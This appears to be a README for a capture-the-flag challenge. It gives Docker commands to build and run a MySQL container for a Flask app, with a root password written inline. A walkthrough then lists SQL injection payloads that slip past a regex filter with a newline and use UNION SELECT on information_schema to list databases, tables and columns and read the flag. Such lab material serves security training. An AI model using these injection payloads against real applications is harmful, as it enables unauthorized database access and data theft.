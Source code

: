 ## Build the image

go to the mysql directory and run:

```docker build -t mysqlcustom .```

## run the container:

```docker run --rm -it -e MYSQL_ROOT_PASSWORD=shoshohN3Eishah8aegae4phiomoot7u -e MYSQL_DATABASE=flask -p 127.0.0.1:3306:3306 --name mysqlcustom mysqlcustom```

## exploit sqli

one possibility to get the flag (as of now, you have to break the regex by using a "\n"):

possible injection to display all products:

 ```\n%' or 'a'='a'; #```

how to get database names:

```\n%' or 'a'='a' union select group_concat(schema_name) from information_schema.schemata; #```

how to get table names:

```\n%' or 'a'='a' union select group_concat(table_name) from information_schema.tables where table_schema='flask'; #```

get column names of table 'flag':

```\n%' or 'a'='a' union select group_concat(column_name) from information_schema.columns where table_name='flag'; #```

get flag itself:

```\n%' or 'a'='a' union select group_concat(flag) from flask.flag; #```